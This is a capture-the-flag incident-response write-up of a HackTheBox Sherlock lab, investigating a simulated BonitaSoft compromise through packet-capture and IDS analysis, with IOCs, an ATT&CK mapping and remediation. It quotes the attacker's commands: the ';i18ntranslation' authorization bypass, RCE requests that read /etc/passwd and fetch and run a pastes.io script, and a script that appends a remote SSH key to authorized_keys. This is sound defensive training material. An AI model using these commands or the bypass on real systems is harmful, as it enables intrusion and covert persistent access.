










# HackTheBox Sherlock — Meerkat | Digital Forensics & Incident Response Report

**Analyst:** Muhammad Umar Khan
**LinkedIn:** [linkedin.com/in/hmumax15](https://linkedin.com/in/hmumax15) | **GitHub:** [github.com/HmUmaxKhan](https://github.com/HmUmaxKhan)
**Platform:** Hack The Box — Sherlocks
**Scenario:** Forela — Business Management Platform Compromise
**Category:** DFIR, Network Forensics, Credential Stuffing, Web Exploitation
**Difficulty:** Easy
**Status:** Completed — all 10 investigation tasks solved

> **Disclaimer:** This investigation was performed against an authorized Hack The Box Sherlock lab (a simulated incident with fictional company data). Published for educational and portfolio purposes as part of CPTS/CDSA-track DFIR practice.

---

## Table of Contents
1. [Executive Summary](#1-executive-summary)
2. [Scope & Evidence Provided](#2-scope--evidence-provided)
3. [Tools Used](#3-tools-used)
4. [Investigation Timeline](#4-investigation-timeline)
5. [Attack Narrative](#5-attack-narrative)
6. [Indicators of Compromise (IOCs)](#6-indicators-of-compromise-iocs)
7. [MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
8. [Task Answers](#8-task-answers)
9. [Remediation Recommendations](#9-remediation-recommendations)
10. [Conclusion](#10-conclusion)

---

## 1. Executive Summary

Forela's Business Management Platform — identified as **BonitaSoft** — was compromised via a two-stage attack: a **credential stuffing** campaign against the login API (56 unique username/password combinations), followed by exploitation of an **authorization bypass vulnerability (CVE-2022-25237)** once valid credentials were obtained. The attacker used the bypass to upload a malicious extension, achieve remote command execution, and establish **persistent, passwordless SSH access** by injecting their own public key into `/home/ubuntu/.ssh/authorized_keys` — mapped to MITRE ATT&CK technique **T1098.004**.

## 2. Scope & Evidence Provided

| Item | Detail |
|---|---|
| Evidence files | `meerkat.pcap` (network capture), `meerkat-alerts.json` (IDS/Suricata-style alerts) |
| Affected application | BonitaSoft (Business Process Management platform) |
| Affected host | `forela.co.uk:8080` (application), `ubuntu` user on the host OS |
| Investigation type | Post-incident network and log forensics |

## 3. Tools Used

- **tshark / Wireshark** — PCAP filtering, HTTP stream reconstruction, form-data decoding
- **jq** — parsing and filtering IDS alert JSON
- **Wayback Machine (web.archive.org)** — recovering content of a since-removed paste.io payload

## 4. Investigation Timeline

### 4.1 Identifying the Affected Application

Filtering the IDS alert log for signatures confirmed the platform and the relevant CVE:

```bash
jq '.[].alert.signature' meerkat-alerts.json
```



**Finding:** Application = **BonitaSoft**. Alert signatures also directly named `CVE-2022-25237` and an RCE-upload variant, giving an early signal of both the vulnerability and the exploitation stage.

### 4.2 Confirming Credential Stuffing

Isolating login attempts and decoding the submitted form data:

```bash
tshark -Y '(http.request.uri == "/bonita/loginservice") && (http.user_agent == "python-requests/2.28.1")' \
  -r meerkat.pcap -V -T json \
  | grep -A2 "Form item"
```



**Reasoning:**
- Not **password guessing/cracking** — the attacker is not iterating through guesses against one account offline.
- Not **password spraying** — spraying reuses the *same* password across *many* usernames; here, different passwords were used against different usernames.
- Matches **credential stuffing** — previously leaked/breached username:password pairs are replayed against the login form, one unique pair per attempt.

### 4.3 CVE Identification

```bash
jq '.[].alert.signature' meerkat-alerts.json | grep CVE
```



**Finding:** **CVE-2022-25237** — a BonitaSoft REST API authorization bypass.

### 4.4 Identifying the Bypass String

Inspecting the raw HTTP request that triggered the RCE-upload alert:

```
POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
```



**Finding:** Appending **`;i18ntranslation`** to the API path bypasses BonitaSoft's authorization filter — a classic path-matching inconsistency between the filter and the routing layer.

### 4.5 Counting the Credential Stuffing Attempts

```bash
tshark -Y '(http.request.uri == "/bonita/loginservice") && (http.user_agent == "python-requests/2.28.1")' \
  -r meerkat.pcap -T json \
  | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l
```



**Finding:** **56** unique username/password combinations were attempted. The exploit tooling also re-tries the default credential pair `install:install` on every run before moving to the stuffing list.



> **Analyst note:** A raw `wc -l` line count on the filtered stream returns 57, one more than the 56 confirmed unique combinations. The discrepancy is explained by stray `null` entries in the alert/data stream (visible in the Section 4.1 screenshot) — a good reminder to always sanity-check line counts against deduplicated, cleaned data before reporting a number.

### 4.6 Identifying the Successful Login

```
POST /bonita/loginservice HTTP/1.1
...
username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en
HTTP/1.1 204
Set-Cookie: bonita.tenant=1; ...
Set-Cookie: JSESSIONID=...
Set-Cookie: X-Bonita-API-Token=...
```



**Finding:** The credential pair **`seb.broom@forela.co.uk : g0vernm3nt`** returned HTTP `204` with valid session cookies — the only successful authentication in the stuffing attempt.

### 4.7 Identifying the Text-Sharing Site & RCE Commands

Reviewing HTTP request statistics by host/path:

```
/bonita/API/extension/rce?p=0&c=1&cmd=whoami
/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
/bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
```



**Finding:** The attacker used **paste.io** (pastes.io) to host a second-stage payload, retrieved via `wget` and executed via `bash` through the authenticated RCE endpoint.

### 4.8 Recovering the Persistence Script

The original paste.io link for the public key payload (`hffgra4unv`) had been taken down by the time of analysis. Content was recovered via the **Wayback Machine**:

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```



**Finding:**
- The RCE-executed script (`bx5gcr0et8`) fetched a second paste (**`hffgra4unv`**, the attacker's SSH **public key**) and appended it to `/home/ubuntu/.ssh/authorized_keys`, then restarted the SSH service.
- **Persistence file modified:** `/home/ubuntu/.ssh/authorized_keys`

### 4.9 MITRE ATT&CK Technique Confirmation



**Finding:** This persistence mechanism maps to **T1098.004 — Account Manipulation: SSH Authorized Keys**.

## 5. Attack Narrative (Kill Chain)

1. **Reconnaissance** — Attacker enumerated BonitaSoft portal pages (`/bonita/API/portal/page/130-133;i18ntranslation`, `/bonita/portal/homepage`), already probing the `;i18ntranslation` bypass pattern.
2. **Credential Stuffing** — 56 unique username/password pairs were submitted to `/bonita/loginservice` using automated tooling (`python-requests/2.28.1`), retrying the default `install:install` pair each run.
3. **Initial Access** — The pair `seb.broom@forela.co.uk : g0vernm3nt` succeeded, returning a valid session.
4. **Exploitation (CVE-2022-25237)** — Using the authenticated session, the attacker appended `;i18ntranslation` to `POST /bonita/API/pageUpload` to bypass the authorization filter and upload a malicious extension/page.
5. **Execution** — The malicious extension exposed `/bonita/API/extension/rce`, used to run `whoami`, `cat /etc/passwd`, and to `wget` + `bash` a second-stage script hosted on paste.io.
6. **Persistence** — The second-stage script appended the attacker's SSH public key (hosted on a separate paste.io link) to `/home/ubuntu/.ssh/authorized_keys` and restarted `sshd`, granting passwordless SSH access independent of the web application.

## 6. Indicators of Compromise (IOCs)

| Type | Indicator |
|---|---|
| Vulnerable application | BonitaSoft |
| CVE | CVE-2022-25237 |
| Compromised account | seb.broom@forela.co.uk |
| Authorization bypass pattern | `;i18ntranslation` appended to API paths |
| RCE endpoint | `/bonita/API/extension/rce?p=0&c=1&cmd=` |
| Malicious infrastructure | pastes.io (paste.io) |
| Stage-2 payload | `https://pastes.io/raw/bx5gcr0et8` |
| SSH public key payload | `https://pastes.io/raw/hffgra4unv` |
| Persistence file | `/home/ubuntu/.ssh/authorized_keys` |
| Attacker tooling user-agent | `python-requests/2.28.1` |

## 7. MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Credential Access | Brute Force: Credential Stuffing | T1110.004 |
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter | T1059 |
| Command and Control | Ingress Tool Transfer | T1105 |
| Persistence / Privilege Escalation | Account Manipulation: SSH Authorized Keys | **T1098.004** |

## 8. Task Answers

| # | Question | Answer |
|---|---|---|
| 1 | Application running | BonitaSoft |
| 2 | Brute-forcing sub-category used | Credential stuffing |
| 3 | CVE assigned | CVE-2022-25237 |
| 4 | Bypass string appended to API path | `;i18ntranslation` |
| 5 | Username/password combinations used | 56 |
| 6 | Successful credential pair | seb.broom@forela.co.uk : g0vernm3nt |
| 7 | Text-sharing site utilised | paste.io |
| 8 | Public key filename used for persistence | hffgra4unv |
| 9 | File modified for persistence | /home/ubuntu/.ssh/authorized_keys |
| 10 | MITRE technique ID | T1098.004 |

## 9. Remediation Recommendations

| Finding | Recommendation | Priority |
|---|---|---|
| CVE-2022-25237 (authorization bypass) | Upgrade BonitaSoft to a patched version that fixes the `;i18ntranslation` path-matching bypass. | Immediate |
| Credential stuffing success | Enforce account lockout / rate limiting on `/bonita/loginservice`; require MFA; monitor for high-volume login attempts from a single source. | Immediate |
| Weak/reused password | Enforce strong, unique passwords; check the account against known breach databases (e.g., HaveIBeenPwned) and force a reset. | High |
| Unrestricted RCE via extension upload | Restrict who can upload/install BonitaSoft extensions; disable the extension-upload feature if not business-critical. | High |
| SSH key persistence | Remove the attacker's key from `authorized_keys` immediately; rotate all SSH keys; audit `authorized_keys` across all hosts for unauthorized entries. | Immediate |
| Outbound data exfiltration / tooling fetch | Implement egress filtering or alerting for outbound `wget`/`curl` traffic to pastebin-style domains (pastes.io, paste.io, etc.) from production servers. | Medium |
| Detection gap | Build detection rules (Sigma) for: rapid sequential logins with varying credential pairs; requests containing `;i18ntranslation`; modifications to `authorized_keys`. | Medium |

## 10. Conclusion

The Meerkat investigation illustrates a complete, realistic attack chain: credential stuffing as the initial foothold, a REST API authorization bypass (CVE-2022-25237) as the escalation vector, and SSH key injection as the persistence mechanism. The case reinforced practical DFIR skills in PCAP analysis, IDS alert triage, HTTP stream reconstruction, and MITRE ATT&CK mapping — core competencies for the HTB CDSA track.

---
*This report documents an authorized Hack The Box Sherlock (simulated incident) completed as part of independent DFIR/CDSA practice.*
